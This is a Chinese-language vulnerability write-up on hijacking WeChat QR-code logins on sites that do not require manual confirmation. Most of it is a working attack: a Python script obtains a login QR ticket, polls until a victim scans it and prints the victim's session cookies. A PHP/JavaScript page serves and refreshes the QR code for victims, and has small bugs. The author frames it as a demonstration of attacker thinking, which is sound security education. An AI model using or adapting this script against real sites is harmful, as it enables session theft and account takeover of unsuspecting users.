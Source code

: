 # 二维码劫持漏洞

​		如今，通过微信扫描进行登陆是很主流的一种登陆方法，用户省去了输入密码的环节，厂商也能通过微信公众号提升用户的依赖性。

但是如果登陆策略不当的话，比如像下文中，用户仅需微信扫描二维码，而没有手动确认登陆的情况下，用户就可能受到二维码劫持攻击的风险。



## 二维码登陆流程

下面以实际例子举例：

首先客户端发送请求，获取微信二维码，及ticket。

![](https:\\github.com\A1AAAAAAAAAA1\vulnerabilities_demo\blob\main\二维码劫持\获取二维码.png)



**imageUrl** 就是二维码图片链接

![](https:\\github.com\A1AAAAAAAAAA1\vulnerabilities_demo\blob\main\二维码劫持\二维码链接.png)

接下来通过轮询此二维码，判断用户是否扫描。

一般分为三种情况

- 返回为0，登陆成功，并回显set-cookie
- 返回为1，表示二维码未被扫描
- 返回为2，表示二维码已过期

![](https:\\github.com\A1AAAAAAAAAA1\vulnerabilities_demo\blob\main\二维码劫持\轮询请求.png)



![](https:\\github.com\A1AAAAAAAAAA1\vulnerabilities_demo\blob\main\二维码劫持\登陆成功.png)



## 思路及实践

> 所以思路就来了
>
> 1. 伪造二维码 
> 2. 投放二维码
> 3. 不断轮询，向用户投放二维码
> 4. 获取cooike

```
# @Author:77
# -*- codeing = utf-8 -*-
# @TIME : 2022/9/27 18:11
# @File : Test_QRcode.py
# @Software: PyCharm
import requests
import time

header = {
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36",
        'Referer': "https://www.example.com/"
}

s=requests.session()
while True:
    flag = 0
    response = s.get(url='https://www.example.com', headers=header)
    # print(response.text)
    r = s.get('https://www.example.com/oauth2/login/wechat_qr_code?_=1663254775727', headers=header)
    # print('二维码已生成！')
    qrcodeurl = r.text.split('l":"')[1]
    qrcodeurl = qrcodeurl.split('","')[0]
    ticket = qrcodeurl.split('showqrcode?')[1]
    f = open("qrcode.txt", "w")
    f.write(ticket)
    f.close()
    # 二维码链接
    qr_url = ("https://mp.weixin.qq.com/cgi-bin/showqrcode?" + ticket)
    print('二维码链接为:' + qr_url)
    re_url = ("https://www.example.com/oauth2/login/wechat_mp_status" + '?' + ticket)
    while True:
        # print("开始轮询二维码状态")
        r = s.get(url=re_url, headers=header)

        # print(r.text)
        code = r.text.split('"code":')[1]
        code = code.split('}')[0]
        # print(code)
        if code == '2':
            # print('二维码已失效，请重新刷新')
            flag=1
            break
        if code == '1':
            # print('二维码未扫描')
            continue
        if code == '0':
            flag = 1
            print('登陆成功')
            break
        time.sleep(1)
    if flag == 1:
        break
    time.sleep(5)
print("最终获取cookie为:")
print(requests.utils.dict_from_cookiejar(s.cookies))
```

投放二维码

```
<?php>
$qrcode = file_get_contents('qrcode.txt');
echo'<img src ="https://mp.weixin.qq.com/cgi-bin/showqrcode?.$qrcode.">';
?>
<script type="text/javascript">
    function  flash(){
        location.reload();
    }
    setInterval(falsh,20000)
</script>
```



最后给一张测试成功截图。

![](https:\\github.com\A1AAAAAAAAAA1\vulnerabilities_demo\blob\main\二维码劫持\成功截图.png)







> **当然这个可能并不算是多危险的漏洞，仅是介绍一种攻击的思考角度。在实际中客户体验经常会与安全性产生冲突，是否需要整改可能需要讨论，寻找出一个合适的平衡点。**

